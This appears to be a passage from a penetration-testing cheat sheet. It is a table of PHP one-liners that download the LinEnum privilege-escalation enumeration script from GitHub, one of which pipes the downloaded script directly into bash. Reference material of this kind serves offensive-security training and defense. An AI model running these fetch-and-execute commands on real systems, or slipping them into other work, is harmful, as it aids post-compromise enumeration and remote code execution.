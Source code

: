 |                                                                                                                                                                                                                                                                                   |                                                       |
| **PHP**                                                                                                                                                                                                                                                                           |                                                       |
| `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`                                                                                                                            | PHP Download with File_get_contents()                 |
| `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'` | PHP Download with Fopen()                             |
| `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' \| bash`                                                                                                               | PHP Download a File and Pipe it to Bash               |
|                                                                                                                                                                                                                                                                                   |                                                       |

